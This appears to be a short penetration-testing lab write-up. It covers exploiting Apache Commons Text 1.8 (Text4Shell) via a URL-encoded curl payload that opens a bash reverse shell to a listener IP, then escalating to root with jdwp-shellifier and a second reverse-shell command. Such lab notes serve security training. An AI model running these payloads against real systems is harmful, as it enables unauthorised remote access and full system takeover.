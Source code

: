 # Take Away
- If a RCE payload does not work, google for available alternatives.
# Exploitation
- Directory Brute Forcing will reveal two potentially interesting URLs. One is `/search` and the other is `/CHANGELOG`.
- Upon visiting the `/CHANGELOG`, one can identify that `Apache Commons Text 1.8` has recently been incorporated into the search functionality which is potentially the `/search` URL.![[Pasted image 20240217104817.png]]
- A little googling will identify that `Apache Commons Text 1.8` is vulnerable to a `RCE`.
	- https://github.com/kljunowsky/CVE-2022-42889-text4shell
- Set up listener and run `curl http://192.168.226.150:8080/search?query=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27bash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.229%2F443%200%3E%261%27%29%7D%0A` to get a reverse shell call back.
# PrivEsc
- `linpeas` will identify Java Debugger is using `jdwp` under root privilege.![[Pasted image 20240217123103.png]]
	- https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol
- Download and transfer `jdwp-shellifier` onto the target syste
	- https://github.com/hugsy/jdwp-shellifier
- Open a `netcat` listener and run `python3 jdwp-shellifier.py -t 127.0.0.1 -p 8000 -c "bash -c \$@|bash 0 echo bash -i >& /dev/tcp/192.168.45.229/443 0>&1"`. Finally, in another session, run `nc 127.0.0.1 5000 -z` to trigger the RCE and obtain a root shell.
